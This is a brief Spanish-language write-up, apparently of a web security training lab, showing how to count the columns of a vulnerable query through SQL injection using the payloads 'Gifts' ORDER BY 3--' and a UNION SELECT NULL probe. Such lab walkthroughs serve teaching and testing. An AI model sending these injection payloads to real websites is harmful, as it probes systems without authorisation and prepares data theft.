


En este laboratorio debemos obtener el numero de columnas.



Luego de probar que el sitio web es vulnerable podemos enumerar el numero de columnas de la query anterior

```c
Gifts' ORDER BY 3--
```

Podemos hacer uso de `order by` de `union select null,null...`

```c
Gifts' union select null,null,null--
```



Observamos que tenemos 3 columnas.